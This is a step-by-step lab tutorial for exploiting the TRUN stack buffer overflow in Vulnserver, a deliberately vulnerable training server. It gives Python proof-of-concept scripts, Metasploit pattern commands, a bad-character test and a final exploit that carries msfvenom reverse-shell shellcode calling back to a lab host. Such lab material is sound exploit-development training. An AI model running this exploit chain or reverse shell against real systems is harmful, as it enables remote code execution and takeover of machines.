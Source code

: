 ```yaml
---
title: "TRUN EIP Overwrite"
layout: home
permalink: /vulnserver/trun/
collection: vulnserver
sidebar:
  nav: "main"
entries_layout: grid
classes: wide
---
```


Begin by using the below proof of concept script, developed by using the SPIKE fuzzer to identify a hole in the Vulnserver TRUN command.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: POC
import socket
import os
import sys

crash="A"*5000

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Running this POC script against Vulnserver produces the same result in the OllyDbg debugger as our previous SPIKE fuzzing attempts. As a very nice bonus, the input we sent has been used to control the value of a very important register in the CPU – the EIP (Extended Instruction Pointer) register. Notice how the EIP register contains the value 41414141?

![trun-eip-overwrite-media-01](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-01.png)

Additional testing proves that a 2500 byte buffer will also cause the Vulnserver application to crash due to an access violation. Create a 2500 byte patterned string to identify which part of the buffer is being stored in the EIP.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500
```
Insert the 2500 character pattern into the Vulnserver TRUN POC Python Script.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Pattern
import socket
import os
import sys

crash="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3>

buffer="TRUN /.:/"
buffer+=crash

print "Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Running the Vulnserver TRUN Pattern Python Script against the target system shows that the following pattern value is being stored in EIP.

<!--- <p align="center">
  <img src="/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-02.png">
  </p>
--->

![trun-eip-overwrite-media-02 align="center"](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-02.png)

EIP address is 386F4337. Use the Metasploit pattern offset utility to identify where the bytes are located in the 2500 byte buffer.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2500 -q 386F4337
```

![trun-eip-overwrite-media-03](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-03.png)

An exact match was found at offset 2003 bytes.  Modify the buffer in the POC script to now send 2003 "A" characters, 4 "B" characters, and 1993 "C" characters; this should overwrite EIP with 4 "B" characters while retaining a 4000 byte buffer size.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Control
import socket
import os
import sys

crash="A"*2003 + "B"*4 + "C"*1993

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```
Running the updated script against the Vulnserver crashes the server and produces the following EIP output in OllyDbg.

![trun-eip-overwrite-media-04](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-04.png)

![trun-eip-overwrite-media-05](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-05.png)

The crash buffer has successfully overwritten EIP with four (4) "B" "\x42" characters; we now have control over EIP. The next step is to identify any bad characters the might not work for our shellcode.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Bad Characters
import socket
import os
import sys

badchar=("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

crash="A"*2003 + "B"*4 + badchar  #"C"*1993

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```
![trun-eip-overwrite-media-06](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-06.png)

From looking at the output, we can tell that there are no bad characters other than \x00. Generate a reverse shell using msfvenom and insert it into the Vulnserver TRUN Python Script and proceed it with a 15 character NOP sled.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.83.122 LPORT=4444 -b "\x00" -f c
```

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Shell
import socket
import os
import sys

shellcode=("\xda\xc5\xd9\x74\x24\xf4\x5d\xbb\xcc\xa2\xea\x74\x33\xc9\xb1"
"\x52\x83\xed\xfc\x31\x5d\x13\x03\x91\xb1\x08\x81\xd5\x5e\x4e"
"\x6a\x25\x9f\x2f\xe2\xc0\xae\x6f\x90\x81\x81\x5f\xd2\xc7\x2d"
"\x2b\xb6\xf3\xa6\x59\x1f\xf4\x0f\xd7\x79\x3b\x8f\x44\xb9\x5a"
"\x13\x97\xee\xbc\x2a\x58\xe3\xbd\x6b\x85\x0e\xef\x24\xc1\xbd"
"\x1f\x40\x9f\x7d\x94\x1a\x31\x06\x49\xea\x30\x27\xdc\x60\x6b"
"\xe7\xdf\xa5\x07\xae\xc7\xaa\x22\x78\x7c\x18\xd8\x7b\x54\x50"
"\x21\xd7\x99\x5c\xd0\x29\xde\x5b\x0b\x5c\x16\x98\xb6\x67\xed"
"\xe2\x6c\xed\xf5\x45\xe6\x55\xd1\x74\x2b\x03\x92\x7b\x80\x47"
"\xfc\x9f\x17\x8b\x77\x9b\x9c\x2a\x57\x2d\xe6\x08\x73\x75\xbc"
"\x31\x22\xd3\x13\x4d\x34\xbc\xcc\xeb\x3f\x51\x18\x86\x62\x3e"
"\xed\xab\x9c\xbe\x79\xbb\xef\x8c\x26\x17\x67\xbd\xaf\xb1\x70"
"\xc2\x85\x06\xee\x3d\x26\x77\x27\xfa\x72\x27\x5f\x2b\xfb\xac"
"\x9f\xd4\x2e\x62\xcf\x7a\x81\xc3\xbf\x3a\x71\xac\xd5\xb4\xae"
"\xcc\xd6\x1e\xc7\x67\x2d\xc9\x28\xdf\x7e\x73\xc1\x22\x80\x92"
"\x4d\xaa\x66\xfe\x7d\xfa\x31\x97\xe4\xa7\xc9\x06\xe8\x7d\xb4"
"\x09\x62\x72\x49\xc7\x83\xff\x59\xb0\x63\x4a\x03\x17\x7b\x60"
"\x2b\xfb\xee\xef\xab\x72\x13\xb8\xfc\xd3\xe5\xb1\x68\xce\x5c"
"\x68\x8e\x13\x38\x53\x0a\xc8\xf9\x5a\x93\x9d\x46\x79\x83\x5b"
"\x46\xc5\xf7\x33\x11\x93\xa1\xf5\xcb\x55\x1b\xac\xa0\x3f\xcb"
"\x29\x8b\xff\x8d\x35\xc6\x89\x71\x87\xbf\xcf\x8e\x28\x28\xd8"
"\xf7\x54\xc8\x27\x22\xdd\xf8\x6d\x6e\x74\x91\x2b\xfb\xc4\xfc"
"\xcb\xd6\x0b\xf9\x4f\xd2\xf3\xfe\x50\x97\xf6\xbb\xd6\x44\x8b"
"\xd4\xb2\x6a\x38\xd4\x96")

crash="A"*2003 + "\xAF\x11\x50\x62" + "\x90"*15 + shellcode

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Launch Vulnserver.exe without attaching it to OllyDbg and launch the Vulnserver TRUN Python Script.

![trun-eip-overwrite-media-07](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-07.png)
